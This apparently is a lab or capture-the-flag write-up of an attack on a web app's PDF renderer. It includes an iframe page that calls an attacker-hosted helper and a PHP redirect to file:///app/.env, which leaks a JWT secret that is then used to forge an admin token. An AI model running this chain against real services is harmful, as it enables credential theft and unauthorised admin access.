



## PDF renderer analysis

While tracing the functions responsible for creating PDFs, we can see that the renderer accepts a URL as its input. The `/download` endpoint can therefore be tested with a URL that we control. This confirms that the application can render content from an external URL.






Directly requesting `file:///app/.env` causes an error in the wkhtml package, so the file cannot be retrieved through a direct `file://` URL. Instead, we can host a small helper endpoint that redirects the renderer to the local file.

## SSRF helper

Host the following HTML page, replacing `ZROK_LINK` with the public URL of the helper:

```html
<!DOCTYPE html>
<html>
<body>
	<h1>Environment request</h1>
	<iframe
		src="https://ZROK_LINK/ssrf.php?x=/app/.env"
		title="Environment request"
		width="1000"
		height="1000"
		frameborder="0">
	</iframe>
</body>
</html>
```

The helper endpoint can be implemented as follows:

```php
<?php
http_response_code(302);
header('Location: file://' . $_GET['x']);
exit;
```

When the application renders the hosted page, the iframe requests the helper, which redirects to `file:///app/.env`. The resulting PDF contains the environment file, including the live JWT secret.




With that secret, forge a JWT containing the required admin claim and use it to access the admin-only functionality.